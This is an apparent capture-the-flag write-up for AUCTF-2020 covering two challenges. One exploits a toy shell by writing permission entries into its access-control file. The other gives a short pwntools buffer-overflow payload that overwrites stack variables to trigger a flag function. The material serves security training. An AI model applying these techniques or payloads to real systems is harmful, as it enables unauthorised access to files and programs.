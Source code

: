 # AUCTF-2020

Fri, 03 April 2020, 21:00 CST — Mon, 06 April 2020, 12:00 CST

**On-line**

An [AUCTF](https://ctftime.org/ctf/425) event.

Format: Jeopardy ![Jeopardy](https://ctftime.org/static/images/ct/1.png)

Official URL: https://ctf.auburn.edu/

**This event's weight is subject of [public voting](https://ctftime.org/event/1020/weight/)!**

Rating weight: 0 

**Event organizers** 

- [AUEHC](https://ctftime.org/team/82180)

------

## Easy as Pie!

### Description

> My friend just spent hours making this custom shell! He's still working on it so it doesn't have much. But we can do some stuff! He even built a custom access control list for controlling if you can access files.
>
> Check it out!
>
> `nc challenges.auctf.com 30010`
>
> Author: kensocolo

### Analysis

access to the python shell and type `help`:

```shell
% nc challenges.auctf.com 30010
Welcome to my custom shell written in Python! To get started type `help`
user@pyshell$ help

Use help <command> for help on specific command.
================================================
cat  help  ls  write

```

try `ls` command:

```shell
user@pyshell$ ls
acl.txt
user.txt
flag.txt
```

here are 3 files, try to `cat` them:

```shell
user@pyshell$ cat flag.txt
Don't have da permzzz
user@pyshell$ cat user.txt
this is some user content. I bet u wish the flag was here
user@pyshell$ cat acl.txt
user.txt:user:600
.acl.txt:root:600
.flag.txt:user:600
flag.txt:root:600
acl.txt:root:606
user@pyshell$ cat .flag.txt
nope not here sorry :)
user@pyshell$ cat .acl.txt
Don't have da permzzz
```

>  we can find two hidden files after `cat acl.txt`

the owner of both `flag.txt` and `.acl.txt` are `root` and the privileges are `600`, so only user `root` can read them.

type `help write`, we can find that the `write` command can add lines to the beginning of files

```shell
user@pyshell$ help write   

        write <content> <filename>
        adds content to the beginning of the file.
       
```

### Solution

?> maybe `acl.txt` means _**a**ccess **c**ontro**l**_?

so, try to add access control rules to `acl.txt`

```shell
user@pyshell$ write flag.txt:user:666 acl.txt
flag.txt:user:666
user@pyshell$ write .acl.txt:user:666 acl.txt
.acl.txt:user:666
```

`cat` is work after rules added:

```shell
user@pyshell$ cat flag.txt
aUctf_{h3y_th3_fl4g}
user@pyshell$ cat .acl.txt
auctf{h4_y0u_g0t_tr0ll3d_welC0m#_t0_pWN_l@nd}
```



## Thanksgiving Dinner

### Description
> I just ate a huge dinner. I can barley eat anymore... so please don't give me too much!
>
> `nc challenges.auctf.com 30011` 
>
> Note: ASLR is disabled for this challenge 
>
> Author: nadrojisk

### Attachment
[turkey](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/AUCTF2020/pwn/turkey/turkey)

### Analysis

```c
void vulnerable(void){
  char local_30 [16];
  int local_20;
  int local_1c;
  int local_18;
  int local_14;
  int local_10;
  
  puts("Hey I heard you are searching for flags! Well I\'ve got one. :)");
  puts("Here you can have part of it!");
  puts("auctf{");
  puts("\nSorry that\'s all I got!\n");
  local_10 = 0;
  local_14 = 10;
  local_18 = 0x14;
  local_1c = 0x14;
  local_20 = 2;
  fgets(local_30,0x24,stdin);
  if ((((local_10 == 0x1337) && (local_14 < -0x14)) && (local_1c != 0x14)) &&
     ((local_18 == 0x667463 && (local_20 == 0x2a)))) {
    print_flag();
  }
  return;
}
```

here is a buffer overflow obviously: 

```
fgets(local_30,0x24,stdin)
```

!> `local_30` is only 16 bytes

so, our input will **overwrite** to `local_20` ... `local_10` after 16 bytes of any char.

### Solution

```python
offset = 16
payload = cyclic(offset)
payload += p32(0x2a)       # local_20 == 0x2a
payload += p32(0xdeadbeef) # local_1c != 0x14
payload += p32(0x667463)   # local_18 == 0x667463
payload += p32(0xdeadbeef) # local_14 < -0x14
payload += p32(0x1337)     # local_10 == 0x1337
```

